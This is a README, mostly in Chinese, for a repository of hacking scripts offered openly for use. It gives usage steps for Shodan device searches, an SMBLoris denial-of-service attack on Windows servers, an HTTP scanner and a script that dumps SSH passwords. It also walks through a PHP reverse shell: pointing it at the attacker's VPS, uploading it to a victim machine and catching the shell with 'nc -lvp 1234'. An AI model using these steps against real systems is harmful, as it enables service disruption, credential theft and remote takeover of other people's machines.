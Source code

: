 ﻿# Th1s 1s a rep0 ab0ut h3cking scr1pts

# shodan

调用shodan api 统计设备数量,如weblogic
shodancount.py weblogic
调用shodan api 搜索设备,如weblogic
shodansearch.py weblogic

# SMBLoris 通过smb对Windows服务器实施DOS攻击

chmod +x run10.sh
sh run10.sh

# httpscan 一个http简易扫描脚本

httpscan.py 192.168.0.0/24

# dump_ssh_password 一个提取ssh密码的脚本

chmod +x ssh_password.sh
sh password.sh
然后新建一个窗口ssh登录，就可以看见ssh密码

# php-reverse-shell 一个基于php的反弹shell的脚本

把php-reverse-shell.php中49行的地址改为自己的公网vps
上传该脚本到被攻击的机器上
登录自己的公网vps，监听1234端口
nc -lvp 1234
在被攻击的机器上执行脚本，即可在vps上看到shell
php php-reverse-shell.php

# Hope you enjoy ^_^
